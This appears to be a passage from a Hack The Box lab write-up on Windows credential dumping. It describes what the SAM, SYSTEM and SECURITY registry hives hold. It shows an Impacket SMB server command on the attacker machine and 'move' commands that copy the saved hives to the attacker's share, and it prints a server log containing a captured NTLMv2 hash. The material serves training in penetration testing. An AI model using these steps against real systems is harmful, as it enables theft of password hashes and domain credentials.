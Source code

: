 ```c
09/19/2024  11:08 AM        12,800,000 system.save
02/07/2022  11:46 AM    <DIR>          Users
02/07/2022  11:58 AM    <DIR>          Windows
               3 File(s)     12,906,496 bytes
               5 Dir(s)  12,022,145,024 bytes free

C:\Windows\system32>
```
So this way we copy registry hives which are useful and contain hashes for local acc pswds, contain bootkey, creds for domain acc.

Registry Hive 	Description
hklm\sam 	- Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.
hklm\system - Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
hklm\security - Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

Then on the attacking machine (Our VM or Pwnbox) we need to run this command replacing htb-ac-1052766 to the our username accordingly. I am doing this task on the pwnbox so this is mine command:
```c
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1052766/Documents/
```

So now we need to start moving our hive copies to attack machine. Run the following commands one-by-one and change the IP to the IP of the attacking machine:
```c
C:\>move sam.save \\10.10.15.129\CompData
        1 file(s) moved.

C:\>move system.save \\10.10.15.129\CompData
        1 file(s) moved.

C:\>move security.save \\10.10.15.129\CompData
        1 file(s) moved.
```

It will give us the output, something like this:
```c
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.202.137,49676)
[*] AUTHENTICATE_MESSAGE (.\bob,FRONTDESK01)
[*] User FRONTDESK01\bob authenticated successfully
[*] bob::.:aaaaaaaaaaaaaaaa:fe0e3afe596cab82f659cb3c77d032e5:01010000000000000083d240c30adb0152c062c09e4d6d7000000000010010004d005200700079006300520055007300030010004d00520070007900630052005500730002001000700042004c00680065004c006c004e0004001000700042004c00680065004c006c004e00070008000083d240c30adb01060004000200000008003000300000000000000000000000003000002b39bd1202e1065457ee0bdcabe6596248d000d01cd37d6a425700bd15a8a1610a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e003100320039000000000000000000
[*] Connecting Share(1:CompData)
[*] Disconnecting Share(1:CompData)
[*] Closing down connection (10.129.202.137,49676)
[*] Remaining connections []
```
